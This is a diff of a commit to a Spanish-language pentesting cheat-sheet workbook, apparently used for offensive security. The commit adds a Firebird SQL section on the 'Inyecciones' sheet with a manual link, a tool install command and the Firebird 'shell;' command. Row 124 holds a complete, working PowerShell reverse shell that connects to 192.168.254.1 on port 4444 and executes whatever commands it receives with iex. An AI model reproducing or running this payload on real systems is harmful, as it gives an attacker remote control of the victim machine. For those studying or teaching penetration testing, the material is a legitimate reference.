

Before and after one commit to AmatheraeWorld/AmatheraeWorld, an Excel workbook: CheatSheet.xlsm, sheet Inyecciones, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; charts and pictures not drawn; rows hold the shown columns only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/CheatSheet.xlsm (sheet Inyecciones)
+++ b/CheatSheet.xlsm (sheet Inyecciones)
+row 116: (empty)
+row 117: (empty)
+row 118: (empty)
+row 119: (empty)
+row 120:  |  |  |  |  |  |  |  |  | FIREBIRD SQL
+row 121:  |  |  |  |  |  |  |  |  | Comandos | Descripcion | Anotaciones
+row 122:  |  |  |  |  |  |  |  |  | https://www.firebirdsql.org/pdfmanual/html/isql-commands.html | Comandos Firebird SQL
+row 123:  |  |  |  |  |  |  |  |  | apt-install isql-fb | Instalar herramienta para conectarnos
+row 124:  |  |  |  |  |  |  |  |  | shell; | Firebird shell de comandos OS | $client = New-Object System.Net.Sockets.TCPClient('192.168.254.1',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Also changed, not shown: sheet General, sheet Explotacion & Post-Explotacion.
